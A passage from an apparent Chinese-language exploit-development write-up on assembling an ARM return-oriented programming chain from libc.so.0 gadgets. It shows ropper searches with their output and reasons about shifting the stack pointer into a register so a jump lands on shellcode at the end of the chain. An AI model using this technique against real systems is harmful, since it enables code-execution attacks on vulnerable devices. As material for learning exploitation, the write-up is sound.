 看起来sp给到r0,r5,r7都是有希望的。

### 增加sp

不过因为在rop的过程中，如果提前的将sp给到一个寄存器中，之后再想办法jmp到这个寄存器中，那个寄存器里存的sp指向的一定不是rop尾部的shellcode，所以要想办法让这个寄存器的值变大，指向rop尾部的shellcode才可以，这里有两种思路：

1. 直接加有了sp赋值的目标寄存器，增加一些过滤条件，找一遍r0,r5,r7
2. 找sp加立即数的赋值指令

首先来看r0,r5,r7的加法：

```c
➜  ropper --file ./libc.so.0 --nocolor --search "add ??, r0, ??"  | grep -v -E "bl #|bne #|beq #|b #|bls #|\["  
0x0003f4f8: add r0, r0, #0x14; mov r1, r4; blx r5; 
0x0003f4f8: add r0, r0, #0x14; mov r1, r4; blx r5; add sp, sp, #4; pop {r4, r5, pc}; 
0x0003f5cc: add r0, r0, #0x20; add sp, sp, #4; pop {r4, r5, pc}; 
0x0003f530: add r0, r0, #0x2380; add r0, r0, #0x14; mov r1, r4; blx r5; 
0x0003f530: add r0, r0, #0x2380; add r0, r0, #0x14; mov r1, r4; blx r5; add sp, sp, #4; pop {r4, r5, pc}; 
0x00052328: add r0, r0, #0x80; pop {r4, pc}; 
0x000522e8: add r0, r0, #0x90; pop {r4, pc}; 
0x000522a8: add r0, r0, #0x94; pop {r4, pc}; 
0x0002bd18: add r0, r0, #1; add sp, sp, #4; pop {r4, r5, pc}; 
0x0002ea5c: add r0, r0, #1; bx lr; 
0x0003fb30: add r0, r0, #8; blx r3; 
0x00018594: add r0, r0, r3; bx lr; 
0x00034a4c: add r3, r0, #1; and r3, r3, #1; add r0, r3, r2; bx lr; 
0x0000c854: add r3, r0, r3; cmp r2, r3; bxhs lr; mov r0, #0; bx lr; 

➜  ropper --file ./libc.so.0 --nocolor --search "add ??, r5, ??"  | grep -v -E "bl #|bne #|beq #|b #|bls #|\["  
0x0003fca8: add r0, r5, #8; blx r3; 
0x00023598: add r3, r5, r3; add r0, r3, r2; add sp, sp, #4; pop {r4, r5, pc}; 
0x0002d568: add r5, r5, r3; rsb r7, r5, r7; mov r0, r7; add sp, sp, #4; pop {r4, r5, r6, r7, pc}; 

➜  ropper --file ./libc.so.0 --nocolor --search "add ??, r7, ??"  | grep -v -E "bl #|bne #|beq #|b #|bls #|\
```

然后找sp加法赋值，这里发现，r1也可以作为转移sp的新目标

```c
➜  ropper --file ./libc.so.0 --nocolor --search "add r?, sp, ??"  | grep -v "bl #"       
0x0002d260: add r1, sp, #0x10; blx r3; 
```

故现在sp的转移目标有r0,r1,r5,r7。分析有的gadget不太好用，比如：

```c
0x0003f5cc: add r0, r0, #0x20; add sp, sp, #4; pop {r4, r5, pc}; 
```

使用这个gadget应该是已经把sp扔到r0里了，但是这个gadget之后还add sp，并且一顿pop，显然我们在这个之后还需要b到r0上，故之后还要拼gadget，要保证给把sp扔到r0时的sp+0x20，能留出这一顿pop和b到r0上的gadget的距离，所以尽量不选用add的比较小，还带pop的gadget，这样很浪费空间，所以综上分析：
